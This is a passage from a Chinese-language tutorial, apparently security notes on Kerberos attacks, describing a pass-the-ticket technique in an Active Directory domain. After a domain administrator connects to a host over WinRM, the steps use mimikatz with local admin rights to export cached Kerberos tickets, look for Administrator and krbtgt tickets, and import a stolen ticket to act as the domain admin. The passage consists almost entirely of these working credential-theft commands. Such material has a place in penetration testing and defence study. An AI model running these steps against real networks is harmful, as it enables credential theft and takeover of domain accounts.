 1. 域管理在 PowerShell 中使用 winrm 服务器远程连接域内主机
    ```powershell
    # 注意填写的是主机名
    Enter-PSSession -ComputerName Winserver12
    # 或者直接访问
    dir \\Winserver12\c$
    ```

    ![image-20240625165346141](Kerberos/image-20240625165346141.png)

2. 此时域管理的凭证已经缓存于目标主机中，用目标主机的本地管理，将凭证导出。
    ```cmd
    mimikatz # privilege::debug
    mimikatz # sekurlsa::tickets /export
    ```

3. 出现含有 Administrator 和 krbtgt 的凭证即算成功
    ![image-20240625192338320](Kerberos/image-20240625192338320.png)

4. 将其导入即可：
    ```bash
    mimikatz # kerberos::ptt 凭证位置
    # 当前使用 mimikatz 导入凭证的 shell 才有权限
    mimikatz # exit
    ```

